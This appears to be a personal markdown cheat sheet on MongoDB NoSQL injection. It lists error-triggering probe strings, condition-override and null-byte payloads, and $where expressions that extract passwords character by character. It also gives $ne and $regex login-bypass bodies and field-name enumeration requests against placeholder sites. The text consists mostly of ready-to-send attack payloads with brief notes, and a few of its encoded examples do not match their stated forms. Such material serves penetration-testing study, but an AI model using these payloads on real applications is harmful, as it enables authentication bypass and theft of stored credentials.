
# Content
- [syntax injection](#syntax-injection)
  - [Detecting syntax injection](#Detecting-syntax-injection)
  - [Overriding existing conditions](#Overriding-existing-conditions)
  - [extract data](#extract-data)
- [NoSQL operator injection](#NoSQL-operator-injection)
  - [Submitting query operators](#submitting-query-operators)
  - [Extracting field names](#extracting-field-names)
  - [Exfiltrating data](#exfiltrating-data)

## syntax injection 
- this type is very rare now

consider this mongodb query for the following examples : 
```js
db.users.find({ $where: function () { return this.name == <userInput> } });
```
or 
```js
 db.users.find({ $expr: { $function: { body: function (name) {return name == <userInput>;}, args: ["$name"], lang: "js" } } })
```


#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

- Determining which characters are processed 
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

- Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
payload:
```
fizzy'||'1'=='1
```
url sent:
```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
mongodb query in backend :
```js
db.users.find({ $where: function () { return this.name == 'fizzy'||'1'=='1' } });
```

- You could also add a **null character** after the category value. MongoDB may ignore all characters after a null character. 
- This means that any additional conditions on the MongoDB query are ignored

**EX:** all products in the fizzy category are displayed, including unreleased products : 
```
db.products.find({ $where: function () { return 'fizzy'\u0000' && this.released == 1 });
```

#### **extract data**

to know some condtions 
```
admin' && this.password.match(/\d/) || 'a'=='b     => check if it has digits or no
```

check length
```
admin' && this.password.length < 30 || 'a'=='b
```

extract password
```
admin' && this.password[0] == 'a' || 'a'=='b
```

query in the backend
```js
db.users.find({$where : function(){ return this.name == "admin' && this.password[0] == 'a' || 'a'=='b' ; }}) ;
```





## NoSQL operator injection

Operator | Description
--- | ---
`$where` | Matches documents that satisfy a JavaScript expression. This operator allows you to write custom JavaScript functions to filter and select documents in a collection. It's a powerful but potentially slow operator, so use it with caution.
`$ne` | Matches all values that are not equal to a specified value. It's used to find documents where a specific field is not equal to a given value.
`$in` | Matches all of the values specified in an array. It's used to find documents where a specific field's value is one of the values in a provided array.
`$regex` | Selects documents where values match a specified regular expression. It's used for pattern matching to find documents with values that match a given regular expression pattern. This is especially useful for text-based searches.


#### **Submitting query operators**

In JSON:
```json
{"username":{"$ne":"invalid"}}
```
In URL-based:
```
GET : 

http://vulnApp/login/?username[$ne]=invalid

POST :

username[$ne]=invalid

```

**EX:** Auth bypass Example : 
```json 
{
"username":{
"$regex" : "admin.*"
},
"password":{
"$ne" : "ayklam"
}
}
```
#### **Extracting field names**

test
```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```
exploit : where `c` is charctar and `i` is index
```json
{"username":"wiener","password":"peter", "$where":"Object.keys(this)[0].match('^.{<i>}<c>.*')"}
```
query in the backend
```js
db.users.find({$where : function(){ return Object.keys(this)[1].match('^.{<i>}<c>.*')  }}) ;
```


#### **Exfiltrating data**

For example:
```json
{"username":"myuser","password":"mypass"}
```
If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable
```json
{"username":"admin","password":{"$regex":"^.*"}}  
```
extract data
```json
{"username":"admin","password":{"$regex":"^a*"}}
```
